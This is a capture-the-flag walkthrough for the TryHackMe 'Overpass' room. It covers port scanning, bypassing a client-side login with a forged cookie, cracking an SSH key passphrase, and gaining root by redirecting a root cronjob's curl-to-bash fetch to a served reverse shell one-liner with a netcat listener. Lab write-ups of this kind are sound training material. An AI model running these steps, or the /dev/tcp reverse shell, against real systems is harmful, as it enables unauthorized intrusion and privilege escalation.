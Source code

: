 # [Overpass TryHackMe Writeup/Walkthrough][1]

What happens when some broke CompSci students make a password manager?

Obviously a *perfect* commercial success!

#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`

![Open Ports](images/open_ports.jpg)

Looks like we have two ports open: `22, 80`

Let's check the website.

![Website](images/website.jpg)

Downloads Page:

![Downlaods Page](images/download.jpg)
> You can download the source code from here and analyze it.

Next Step, Subdomains Finder! I am using **gobuster**.

`gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt`

![GoBuster Result](images/gobuster.jpg)
> The interesting one here is `/admin`.

![Admin Page](images/admin_page.jpg)

I found a login page. Let's check the source code for the admin page.

![Source Code](images/source_code.jpg)

Found three scripts here:
- main.js
- login.js
- cookie.js

Seems like *login.js* gets the responses and check for the word, `Incorrect Credentials`. If its is not present that means we have the access.

![Login.js](images/login_js.jpg)

So, we can set cookies automatically in the Browser or use BurpSuite do it.

###### With BurpSuite:
- Intercept the request.
- Right click > Do Show response.
- Forward, Forward.... till you get the response.
- Backspace *incorrect credentials* and forward the response.

##### In Browser (FireFox):
- Right Click > Inspect Element.
- Go to Storage. Add the cookie with name `SessionToken` and no value.
- Save it and reload the page.

> BAAM! We are logged in.

We have a username, `james` and a SSH Key to login.

![SSH Key](images/ssh_key.jpg)

Copy the SSH Key and save it in a file. You can name the file anything. I named is `id_rsa` (generally used name).

Before connecting, we need to change the permissions for the key -> `chmod 600 id_rsa`

When I tried to connect, a passphrase was required. Let's use *JohnTheRipper*, to crack the password.

First we need to convert the file into Hash. To do that -> `ssh2john id_rsa > hash`

![John Start](images/john_start.jpg)

Now we can provide `rockyou.txt` as a wordlist to crack this HASH.

![Got Start](images/got_pass.jpg)
> We got the password.

I logged in with the credentials, `username:james` and `password:GOT FROM JOHN`

![Got Connection](images/got_connection.jpg)

We got the `user flag`.

![User Flag](images/user_flag.jpg)

While looking through, I found a `TODO` list.

![TODO Content](images/todo.jpg)
> Whats' interesting here is the last task. Looks like Script Automation aka a cronjob.

So, let's have look for this `cronjobs`. The file is stored in `/etc/crontab`.

![Content of Cronjobs](images/crontab.jpg)
> There is a curl command which gets a bash file from a remote server and passes the content to bash command as ROOT.

Let's first create a folder `downloads` and subfolder `src` using command -> `mkdir -p downloads/src` and a file named `buildscript.sh` in our local machine. Add the bash one liear for reverse shell to it -> `bash -i >& /dev/tcp/<YOUR IP>/4444 0>&1`. Also start a server using python -> `python3 -m http.server 80`.

![File Content](images/create_file.jpg)
> What we have done here is created a URL. Like `http://<OUR_IP>/downloads/src/buildscript.sh`. Same as what curl is requesting for!

Fireup another terminal and start a netcat listener -> `nc -lvnp 4444`
> We are done with the work on our machine. Let's jump back to the target machine.

The `overpass.thm` part can be replace with our IP using the HOSTS file on the target machine. As the system first looks for the DNS Query at our local machine.
> To know more about HOST files and how it works, [Check this link][3].

HOSTS file on Linux is stored at `/etc/hosts`. Open the file, change the IP of `overpass.thm` to your IP.

![Change HOST](images/change_hosts.jpg)
> Wait for a while, it may take sometime.

In few minutes or so, you will get a reverse connection from the target machine.

![Got Access](images/got_root_access.jpg)

You know what to do next :stuck_out_tongue_winking_eye:

![Root Flag](images/root_flag.jpg)


[1]: https://tryhackme.com/room/overpass
[2]: https://www.hackhunt.in/search/label/Nmap
[3]: https://www.hackhunt.in/2020/12/block-access-to-websites-for-your-pc.html
